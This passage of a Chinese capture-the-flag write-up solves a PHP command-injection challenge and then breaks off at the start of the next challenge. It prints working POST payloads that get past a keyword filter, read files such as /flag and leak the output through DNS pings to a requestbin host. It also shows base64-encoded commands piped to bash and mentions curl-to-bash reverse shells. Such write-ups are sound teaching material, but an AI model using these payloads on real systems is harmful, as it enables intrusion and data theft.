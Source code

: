
拦截形同虚设，可以用"php -r"执行PHP代码。不过没有回显，需要将结果打到DNS上。

扫根目录：

```
POST：girl_friend=php -r "system('ping '.substr(implode('.',scandir('/')),6,50).'.295af172a8d3ec4abf30.d.dns.requestbin.buuoj.cn');"
```

读/flag：

```
POST：girl_friend=php -r "system('ping '.substr(system('bas""e64 /flag'),0,50).'.295af172a8d3ec4abf30.d.dns.requestbin.buuoj.cn');"
```

分两次读，解码后：

```
flag{flag-is-not-here,please-find-it-by-yourself}
```

不太对劲，要找真正的flag，在.bash_history里面看到了信息，然后再读：

```
POST：girl_friend=php -r "system('ping '.substr(system('bas""e64 /etc/demo/P3rh4ps/love/flag'),0,50).'.46418d29ca743ab417af.d.dns.requestbin.buuoj.cn');"
```

## 备注

1. 后来看题解，发现我好像非预期了，.bash_history是个意外，预期思路应该是用nc命令或者curl xxx|bash弹Shell，然后find一下flag。

2. 因为find命令会返回不止一行，而我的方法是利用了system()的返回，所以不太好用。当然也不是不可以，可以先将find的返回保存到变量foo中，然后echo一下\${foo}。至于"$"符号的绕过，可以先将命令base64编码，传到服务器再解码，然后重定向到bash里，Payload大概长这样：

    ```
    POST：girl_friend=php -r "system('ping '.substr(system('ec""ho YT0kKGZpbmQgLyAtbmFtZSBmbGFnKTtlY2hvICR7YToxMDoxNX18YmFzZTY0Cg==|ba""se64 -d|bash'),0,50).'.f9a0ea65a00ba5753d08.d.dns.requestbin.buuoj.cn');"
    
    YT0kKGZpbmQgLyAtbmFtZSBmbGFnKTtlY2hvICR7YToxMDoxNX18YmFzZTY0Cg== => a=$(find / -name flag);echo ${a:10:15}|base64
    ```

3. 不得不说，上面这个方法太蛋疼了，得整一个VPS工具。

----

# 简单注入

## 题目描述

上来就是个登录框，注入写到了脸上。

## 解题思路
